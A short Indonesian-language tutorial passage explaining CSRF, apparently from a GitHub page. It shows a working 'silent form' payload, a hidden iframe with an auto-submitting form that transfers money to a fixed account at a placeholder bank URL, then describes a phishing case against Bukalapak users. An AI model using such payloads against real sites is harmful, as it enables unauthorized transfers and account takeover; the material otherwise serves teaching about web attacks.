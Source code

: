 #### Teknik serangan CSRF

Contoh :

**CSRF silent form.**

```
<iframe style="display:none" name="csrf-frame"></iframe>
<form method='POST' action='https://yourbank.com/transfer' target="csrf-frame" id="csrf-form">
  <input type='hidden' name='criticaltoggle' value='true'>
  <input type="text" name="amount" value="100.00" />
  <input type="text name="destination_account_number" value="5647382" />
  <input type='submit' value='submit'>
</form>
<script>document.getElementById("csrf-form").submit()</script>
```

Pada contoh di atas pengguna akan diarahkan untuk melakukan transfer sejumlah uang ke rekening tertentu.

**Real case:**

![Alt text](/images/cryforhelp.png "Optional title")

User salah satu e-commerce di Indonesia yaitu Bukalapak diarahkan oleh penjual nakal untuk mengunjungi halaman palsu dan mengisi data-data penting ke dalam form login palsu yang mirip dengan form login di bukalapak, yg bertujuan menampung email dan password korban yg diisikan di form. Akibatnya attacker dapat mengambil alih akun korban.

**Perbandingan kode form asli dengan yang palsu.**
